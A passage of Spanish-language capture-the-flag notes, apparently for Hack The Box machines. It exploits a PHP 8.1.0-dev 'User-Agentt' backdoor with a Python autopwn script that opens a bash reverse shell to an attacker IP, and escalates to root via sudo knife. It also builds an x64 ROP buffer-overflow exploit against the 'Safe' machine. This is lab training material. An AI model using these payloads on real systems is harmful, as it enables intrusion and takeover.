\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php http://10.10.10.242/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

Tampoco encontramos gran cosa por aqui.

\hypertarget{analyzamos-las-cabezeras-de-la-respuesta-al-lado-del-servidor}{%
\subsubsection*{Analyzamos las cabezeras de la respuesta al lado del servidor}\label{analyzamos-las-cabezeras-de-la-respuesta-al-lado-del-servidor}}
\addcontentsline{toc}{subsubsection}{Analyzamos las cabezeras de la respuesta al lado del servidor}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET http://10.10.10.242 -I}
\end{Highlighting}
\end{Shaded}

No vemos nada. Miramos por la version de php que parece un poco rara.

\hypertarget{vulnerability-assessment-26}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-26}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{php-4.1.0-dev}{%
\subsection*{php 4.1.0-dev}\label{php-4.1.0-dev}}
\addcontentsline{toc}{subsection}{php 4.1.0-dev}

Si buscamos en google pro \texttt{PHP\ 8.1.0\ exploit} vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{"User-Agent"}\NormalTok{: }\StringTok{"Mozilla/5...."}
\StringTok{"User-Agentt"}\NormalTok{: }\StringTok{"zerodiumsystem('"} \ExtensionTok{+}\NormalTok{ COMMANDO + }\StringTok{"');"}
\end{Highlighting}
\end{Shaded}

Lo intentamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET http://10.10.10.242 -H }\StringTok{"User-Agentt: zerodiumsystem('whoami');"}
\CommentTok{#Output }
\ExtensionTok{james}
\ExtensionTok{...}

\ExtensionTok{curl}\NormalTok{ -s -X GET http://10.10.10.242 -H }\StringTok{"User-Agentt: zerodiumsystem('id');"}\NormalTok{ head -n 1}
\end{Highlighting}
\end{Shaded}

\hypertarget{vuln-exploit-gaining-access-26}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-26}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-un-autopwn-en-pyton}{%
\subsection*{Ganando accesso con un Autopwn en Pyton}\label{ganando-accesso-con-un-autopwn-en-pyton}}
\addcontentsline{toc}{subsection}{Ganando accesso con un Autopwn en Pyton}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.242/"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    headers }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'User-Agentt'}\NormalTok{: }\StringTok{'zerodiumsystem("bash -c }\CharTok{\textbackslash{}'}\StringTok{bash -i >& /dev/tcp/10.10.14.15/443 0>&1}\CharTok{\textbackslash{}'}\StringTok{");'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url, headers}\OperatorTok{=}\NormalTok{headers)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Pwn Web"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Explotando vulnerabilidad PHP 8.1.0-dev - User Agentt Remote Code Execution"}\NormalTok{)}

\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}

    \ControlFlowTok{if}\NormalTok{ shell.sock }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{        p1.failure(}\StringTok{"No ha sido posible comprometer el sistema"}\NormalTok{)}
\NormalTok{        sys.exit(}\DecValTok{1}\NormalTok{)}
    \ControlFlowTok{else}\NormalTok{:}
\NormalTok{        p1.success(}\StringTok{"Comando inyectado exitosamente"}\NormalTok{)}
\NormalTok{        shell.sendline(}\StringTok{"sudo knife exec -E 'exec }\CharTok{\textbackslash{}"}\StringTok{/bin/sh}\CharTok{\textbackslash{}"}\StringTok{'"}\NormalTok{)}
\NormalTok{        shell.interactive()}
\end{Highlighting}
\end{Shaded}

Lo lanzamos con el commando \texttt{python3\ autopwn.py}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{james}

\FunctionTok{hostname}\NormalTok{ -I}
\CommentTok{#Output}
\ExtensionTok{10.10.10.242}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-23}{%
\section*{Privilege Escalation}\label{privilege-escalation-23}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-32}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-32}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Podemos ejecutar el commando \texttt{/usr/bin/knife} como el usuario root sin proporcionar contraseña.

buscando por \href{https://gtfobins.github.io/gtfobins/knife/\#sudo}{gtfobins}, vemos que podemos usar este
commando para ejecutar una shell.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ knife exec -E }\StringTok{'exec "/bin/bash"'}
\FunctionTok{whoami}
\CommentTok{#Output }
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya podemos leer la flag root.txt

\hypertarget{safe}{%
\chapter*{Safe}\label{safe}}
\addcontentsline{toc}{chapter}{Safe}

\hypertarget{introduccion-40}{%
\section*{Introduccion}\label{introduccion-40}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Safe.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=8P_xeVB9Lhk}{\includegraphics{https://img.youtube.com/vi/8P_xeVB9Lhk/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-40}{%
\section*{Enumeracion}\label{enumeracion-40}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-40}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-40}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-40}{%
\subsubsection*{Ping}\label{ping-40}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.147}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-40}{%
\subsubsection*{Nmap}\label{nmap-40}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.147}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.147 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80,1377 10.10.10.147 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & creds\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
1337 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

El resultado de Nmap nos muestra algo raro con el puerto \textbf{1337}. Lo miramos con \textbf{ncat}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.247 1337}

\ExtensionTok{What}\NormalTok{ do you want me to echo back?}
\ExtensionTok{AA}

\ExtensionTok{Ncat}\NormalTok{: Broken pipe}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzando-la-web-24}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-24}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-31}{%
\subsubsection*{Whatweb}\label{whatweb-31}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.147}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.25 en un Debian y parece que sea la default page de apache2.

\hypertarget{checkear-la-web-8}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-8}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.147}, Vemos la pagina por por defecto de apache2.
Miramos el codigo fuente y vemos un commentario que dice \texttt{\textquotesingle{}myapp\textquotesingle{}\ can\ be\ dowloaded\ to\ analyse\ from\ here\ its\ running\ on\ port\ 1337}.

Si ponemos la url \texttt{http://10.10.10.147/myapp} podemos descargar la app y analyzarla.

\hypertarget{vulnerability-assessment-27}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-27}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{analysis-de-myapp}{%
\subsection*{Analysis de myapp}\label{analysis-de-myapp}}
\addcontentsline{toc}{subsection}{Analysis de myapp}

Si lanzamos la app descargada con el commando \texttt{./myapp} vemos la misma cosa que lo que hemos encontrado en el puerto 1337.
Vamos a ver si esta app esta vulnerable a un Buffer Overflow

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*500'}
\ExtensionTok{./myapp}

\ExtensionTok{What}\NormalTok{ do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}

\CommentTok{#Output}
\ExtensionTok{zsh}\NormalTok{: segmentation fault ./myapp}
\end{Highlighting}
\end{Shaded}

\hypertarget{buffer-overflow-x64-usando-gadgets}{%
\subsection*{Buffer Overflow x64 usando Gadgets}\label{buffer-overflow-x64-usando-gadgets}}
\addcontentsline{toc}{subsection}{Buffer Overflow x64 usando Gadgets}

Primeramente vamos a analyzar el \texttt{myapp} con \textbf{Ghidra}.Lanzamos Ghidra, creamos un nuevo proyecto y importamos el binario \texttt{myapp}.
Una vez importado, cojemos el binario y lo Drag \& Dropeamos en el Dragon. Una vez cargado, nos pide si lo queremos analysar, le decimos que si.

En la parte derecha de Ghidra, hay un panel Symbol Tree que nos permite ver las funcciones del programa, pinchamos a la function \textbf{main} y vemos
el codigo de esta funccion. Vemos que hay una variable \texttt{local\_78} creada con un tamaño de 112 bits y que recupera la entrada de usuario con la
funccion \texttt{gets(local\_78)} que es vulnerable a un BufferOverflow.

Aqui vamos a analysar mas en profundidad el binario con \textbf{gdb} con \textbf{gef}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gdb}\NormalTok{ ./myapp}
\ExtensionTok{info}\NormalTok{ functions}
\ExtensionTok{r}

\ExtensionTok{What}\NormalTok{ do you want me to echo back? Hola probando}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{Inferior}\NormalTok{ 1 exited normally]}

\ExtensionTok{r}
\ExtensionTok{What}\NormalTok{ do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\end{Highlighting}
\end{Shaded}

Aqui gdb nos saca un error y vemos que el \texttt{\$rsp} esta sobre escito con lettras \textbf{A}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Safe-rsp-A} \caption{rsp overwritted}\label{fig:unnamed-chunk-77}
\end{figure}

Aqui seguimos la Guia normal de un BOF.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Buscamos cuantos A son necessarios antes de sobre escribir el \textbf{rsp}

  \begin{itemize}
  \item
    creamos un pattern de 150 caracteres

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤ pattern create 150}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Generating a pattern of 150 bytes (n=4)}
\ExtensionTok{aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Saved as }\StringTok{'$_gef0'}
\end{Highlighting}
\end{Shaded}
  \item
    lanzamos el script otra vez y pegamos los caracteres

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤ r}
\ExtensionTok{What}\NormalTok{ do you want me to echo back? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaata}
\ExtensionTok{aauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma}
\end{Highlighting}
\end{Shaded}
  \item
    el programa peta una vez mas pero el valor del \texttt{\$rsp} a cambiado. Miramos el offset con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  pattern offset }\VariableTok{$rsp}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Searching for }\StringTok{'$rsp'}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Found at offset 120 (little-endian search) }\ExtensionTok{likely}
\end{Highlighting}
\end{Shaded}

    Aqui vemos que tenemos que entrar 120 caracteres antes de sobre escribir el \textbf{rsp}.
  \item
    Probamos con 120 A y 8 B. /!~cuidado que como es una maquina x64 tenemos que poner 8 B y no 4.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'120*"A"+8*"B"'}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAABBBBBBBB}

\ExtensionTok{gef}\NormalTok{➤ r}
\ExtensionTok{What}\NormalTok{ do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB}
\CommentTok{#Output}
\VariableTok{$rsp}   \BuiltInTok{:}\NormalTok{ 0x00007fffffffde98  →  }\StringTok{"BBBBBBBB"}
\VariableTok{$rbp}   \BuiltInTok{:}\NormalTok{ 0x4141414141414141 (}\StringTok{"AAAAAAAA"}\NormalTok{?)}
\VariableTok{$rsi}   \BuiltInTok{:}\NormalTok{ 0x00000000004052a0  →  }\StringTok{"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"}
\end{Highlighting}
\end{Shaded}
  \item
    añadimos 8 C para saber donde caen la cosas despues del \textbf{rsp}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'120*"A"+8*"B"+8*"C"'}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AABBBBBBBBCCCCCCCC}

\ExtensionTok{gef}\NormalTok{➤ r}
\ExtensionTok{What}\NormalTok{ do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC}
\CommentTok{#Output}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Miramos las seguridades existentes del programa

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  checksec}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] checksec for }\StringTok{'/home/s4vitar/Desktop/HTB/Safe/content/myapp'}
\ExtensionTok{Canary}\NormalTok{                        : ✘ }
\ExtensionTok{NX}\NormalTok{                            : ✓ }
\ExtensionTok{PIE}\NormalTok{                           : ✘ }
\ExtensionTok{Fortify}\NormalTok{                       : ✘ }
\ExtensionTok{RelRO}\NormalTok{                         : Partial}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Vemos aqui que el NX (DEP: Data Execution Prevention) esta enabled, lo que quiere decir que deshabilita la ejecucion de codigo en la pila.
Tenemos que encontrar una via alternativa.

Si recordamos, el analysis de la funccion main con \textbf{Ghidra} era la siguiente

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{undefined8 main (}\DataTypeTok{void}\NormalTok{)}
\NormalTok{\{}
    \DataTypeTok{char}\NormalTok{ myVariable [}\DecValTok{112}\NormalTok{];}

\NormalTok{    system(}\StringTok{"/usr/bin/uptime"}\NormalTok{);}
\NormalTok{    printf(}\StringTok{"}\SpecialCharTok{\textbackslash{}n}\StringTok{What do you want me to echo back? "}\NormalTok{);}
\NormalTok{    gets(myVariable);}
\NormalTok{    puts(myVariable);}
    \ControlFlowTok{return} \DecValTok{0}\NormalTok{;}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

La idea aqui seria de burlar la llamada a la funccion system(``/usr/bin/uptime'') para que en vez de llamar a uptime, ejecute otra cosa. Esto se hace
cambiando la cadena de texto ``/usr/bin/uptime'' con ``/bin/sh'' por ejemplo.

Hay cosas que tenemos que tener en cuenta para hacer este processo. En 64bits, hay uno orden que tenemos que tener en cuenta durante la llamada a una funccion
\texttt{rdi\ rci\ rdx\ rcx\ r8\ r9}. Este order se llama \textbf{convencion de llamada}. Esto significa que los argumentos pasados por las funcciones estan almazenadas en uno
de estos registros y que siguen este orden.

Lo comprobamos de la siguiente manera.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un pequeño script en python para lanzar el pdb en modo debug con un breakpoint al inicio de la funccion main

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context(terminal}\OperatorTok{=}\NormalTok{[}\StringTok{'tmux'}\NormalTok{, }\StringTok{'new-window'}\NormalTok{])}
\NormalTok{context(os}\OperatorTok{=}\StringTok{'linux'}\NormalTok{, arch}\OperatorTok{=}\StringTok{'amd64)}

\StringTok{p = gdb.debug('}\NormalTok{.}\OperatorTok{\textbackslash{}}\NormalTok{myapp}\StringTok{', '}\NormalTok{b }\OperatorTok{*}\NormalTok{main}\StringTok{')}

\StringTok{p.recvuntil('}\NormalTok{What do you want me to echo back?}\StringTok{')}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script con el comando \texttt{python3\ exploit.py}
\item
  En este punto estamos parados en el principio de la funccion main, y añadimos un breakpoint al call de la funccion system

  \begin{itemize}
  \item
    lo buscamos en el listing de ghidra

    \begin{figure}
      \includegraphics[width=0.9\linewidth]{images/Safe-system-breakpoint} \caption{system function listing breakpoint}\label{fig:unnamed-chunk-78}
      \end{figure}
  \item
    añadimos esta direccion como breakpoint

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  b * 0x40116e}
\ExtensionTok{gef}\NormalTok{➤  c}
\ExtensionTok{gef}\NormalTok{➤  si}
\ExtensionTok{gef}\NormalTok{➤  si}
\ExtensionTok{gef}\NormalTok{➤  si}
\ExtensionTok{gef}\NormalTok{➤  si}
\end{Highlighting}
\end{Shaded}

    el comando \texttt{b} significa Breakpoint, el comando \texttt{c} es para Continue y el \texttt{si} se puede traducir como siguiente instruccion.
    En este punto hemos llegado a la funccion system.
  \item
    miramos lo que hay en el \textbf{rdi}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  x/s }\VariableTok{$rdi}
\CommentTok{#Output}
\ExtensionTok{0x402008}\NormalTok{:   }\StringTok{"/usr/bin/update"}
\end{Highlighting}
\end{Shaded}

    Aqui vemos que en el \textbf{rdi} esta la string correspondiendo al \texttt{/usr/bin/uptime} que es el comando que seria ejecutado por \textbf{system()}
  \end{itemize}
\end{enumerate}

Ahora que sabemos que el argumento pasado en la funccion \textbf{system()} tiene que ser previamente definida en el registro \texttt{rdi}, miramos de que manera
podemos tomar el control de este registro para poner el comando que queremos.

Para hacer este truco, el Tito nos recomiendo en primer lugar inspeccionar el resto de funcciones existentes. Si lo miramos con \textbf{Ghidra} en el Symbol Tree,
vemos que hay una funccion que se llama test y que contiene las ejecuciones siguientes:

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Safe-test-fct-inspection} \caption{test function inspection}\label{fig:unnamed-chunk-79}
\end{figure}

Aqui podemos ver que en esta funccion copia el contenido del \textbf{RSP} en el \textbf{RDI}. Esto nos cae de lujo porque con las 120 A, hemos ganado el control del \textbf{RSP}.
Esto quiere decir que si logramos desde el \texttt{rsp} lanzar la funccion \emph{test()}, cuando termine esta funccion, nos copiara lo que hay en el \texttt{rsp} en le \texttt{rdi}. Si conseguimos
hacerlo, y que llamamos a la funccion system, nos lanzara el comando \texttt{system()} con el valor del \texttt{rdi} La difficultad de esta tecnica reside en manejar el flujo del
programa como nosotros queremos.
Si miramos la funccion test, vemos que justo despues de la copia del \texttt{rsp} al \texttt{rdi}, hay un comando \textbf{JMP} que significa Jump al registro \textbf{R13} donde a dentro, existe
una direccion (por el momento desconocida).
Aqui la idea seria cambiar lo que hay en el registro \texttt{R13} para injectarle la direccion de la function \texttt{system()}.

Para hacer este truco, tenemos que pasar por Gadgets que seria un ropper en este caso. Podemos usar \textbf{gef} para buscar si existe un Gadget en este registro.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  ropper --search }\StringTok{"pop r13"}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Safe-gadget-r13} \caption{gef search for gadgets}\label{fig:unnamed-chunk-80}
\end{figure}

Aqui vemos que tenemos un Gadget \texttt{pop\ r13;\ pop\ r14;\ pop\ r15;} y tenemos la direccion \textbf{401206}. Esto quiere decir que podemos meter la direction de \textbf{system()} en
\texttt{r13} y por lo de \texttt{r14} y \texttt{r15}, pondremos un byte nullo.

Para esto uzaremos el exploit.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context(terminal}\OperatorTok{=}\NormalTok{[}\StringTok{'tmux'}\NormalTok{, }\StringTok{'new-window'}\NormalTok{])}
\NormalTok{context(os}\OperatorTok{=}\StringTok{'linux'}\NormalTok{, arch}\OperatorTok{=}\StringTok{'amd64'}\NormalTok{)}

\NormalTok{p }\OperatorTok{=}\NormalTok{ remote(}\StringTok{"10.10.10.147"}\NormalTok{, }\DecValTok{1337}\NormalTok{)}
\CommentTok{# p = gdb.debug('./myapp', 'b *main')}

\NormalTok{p.recvuntil(}\StringTok{"What do you want me to echo back?"}\NormalTok{)}

\CommentTok{# gef➤  ropper --search "pop r13"}
\CommentTok{# 0x0000000000401206: pop r13; pop r14; pop r15; ret;}
\NormalTok{pop_r13 }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x401206}\NormalTok{)}
\NormalTok{junk }\OperatorTok{=}\NormalTok{ (}\StringTok{"A"}\OperatorTok{*}\DecValTok{112}\NormalTok{).encode()}
\NormalTok{bin_sh }\OperatorTok{=} \StringTok{"/bin/sh}\CharTok{\textbackslash{}x00}\StringTok{"}\NormalTok{.encode()}
\CommentTok{# JMP => r13 [system()]}
\CommentTok{# 0000000000401040 <system@plt>:}
\CommentTok{#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>}
\CommentTok{#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>}
\NormalTok{system_plt }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x40116e}\NormalTok{)}
\NormalTok{null }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x0}\NormalTok{)}
\CommentTok{# ❯ objdump -D ./myapp | grep "test"}
\CommentTok{#   40100b:       48 85 c0                test   %rax,%rax}
\CommentTok{#   4010c2:       48 85 c0                test   %rax,%rax}
\CommentTok{#   401104:       48 85 c0                test   %rax,%rax}
\CommentTok{# 0000000000401152 <test>:}
\NormalTok{test }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x401152}\NormalTok{)}
\CommentTok{#                             **************************************************************}
\CommentTok{#                             *                          FUNCTION                          *}
\CommentTok{#                             **************************************************************}
\CommentTok{#                             undefined test()}
\CommentTok{#             undefined         AL:1           <RETURN>}
\CommentTok{#                             test                                            XREF[3]:     Entry Point(*), 00402060, }
\CommentTok{#                                                                                          00402108(*)  }
\CommentTok{#        00401152 55              PUSH       RBP}
\CommentTok{#        00401153 48 89 e5        MOV        RBP,RSP}
\CommentTok{#        00401156 48 89 e7        MOV        RDI,RSP # RDI => "/bin/sh\textbackslash{}x00"}
\CommentTok{#        00401159 41 ff e5        JMP        R13 # => system($rdi)}
\NormalTok{p.sendline(junk }\OperatorTok{+}\NormalTok{ bin_sh }\OperatorTok{+}\NormalTok{ pop_r13 }\OperatorTok{+}\NormalTok{ system_plt }\OperatorTok{+}\NormalTok{ null }\OperatorTok{+}\NormalTok{ null }\OperatorTok{+}\NormalTok{ test)}
\NormalTok{p.interactive()}
\end{Highlighting}
\end{Shaded}

Todas las direcciones de memoria se han buscado con el comando \texttt{objdump\ -D\ ./myapp\ \textbar{}\ grep\ "system"} o para la direccion de test con el
comando \texttt{objdump\ -D\ ./myapp\ \textbar{}\ grep\ "test"}. Estos comandos se puenden usar porque le PIE esta desabilitado.

En este caso, que hace el script. El script nos permite finalmente ejecutar el applicativo con un flujo distincto para
ganar accesso al systema. El flujo es el siguiente.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Lanzamos el binario
\item
  Introducimos 112 A (120 del offset menos los 8 bytes del comando ``/bin/sh\x00'') =\textgreater{} 7 caracteres + 1 nullByte.
\item
  Introducimos el commando \texttt{/bin/sh\textbackslash{}x00}
\item
  Apuntamos a la direccion del gadget
\item
  Sobre escribimos el

  \begin{itemize}
  \tightlist
  \item
    r13 con la direccion de system
  \item
    r14 como nullo
  \item
    r15 como nullo
  \end{itemize}
\item
  Introducimos la direccion de la funccion test
\end{enumerate}

\hypertarget{buffer-overflow-x64-usando-memory-leak}{%
\subsection*{Buffer Overflow x64 usando Memory leak}\label{buffer-overflow-x64-usando-memory-leak}}
\addcontentsline{toc}{subsection}{Buffer Overflow x64 usando Memory leak}

\begin{Shaded}
\begin{Highlighting}[]
